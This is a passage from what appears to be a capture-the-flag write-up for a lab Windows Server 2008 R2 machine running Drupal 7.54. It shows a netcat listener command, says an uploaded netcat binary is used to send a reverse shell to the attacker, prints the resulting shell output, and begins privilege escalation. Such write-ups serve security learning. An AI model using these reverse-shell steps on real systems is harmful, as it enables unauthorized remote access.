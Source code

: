 Then set up a listener on the attack machine.

```text
nc -nlvp 1234
```

Use the uploaded netcat executable to send a reverse shell to our attack machine.

![](../images/max/871/1*txrJaPlUZUXQAEx894ftRQ.png)

We get a shell!

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...                                                                                                                                             
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.9] 60572                                                                                                               
Microsoft Windows [Version 6.1.7600]                                                                                                                                    
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.                                                                                                         
                                                                                                                                                                        
C:\inetpub\drupal-7.54>whoami                                                                                                                                           
whoami                                                                                                                                                                  
nt authority\iusr
```

Grab the _user.txt_ flag.

![](../images/max/624/1*KRKVIA-I2J4ZptRdur7iwA.png)

Now we need to escalate privileges.

## Privilege Escalation <a id="580f"></a>

We know from the output of the _systeminfo_ command the OS name and version.

```text
OS Name:                Microsoft Windows Server 2008 R2 Datacenter 
OS Version:             6.1.7600 N/A Build 7600
```
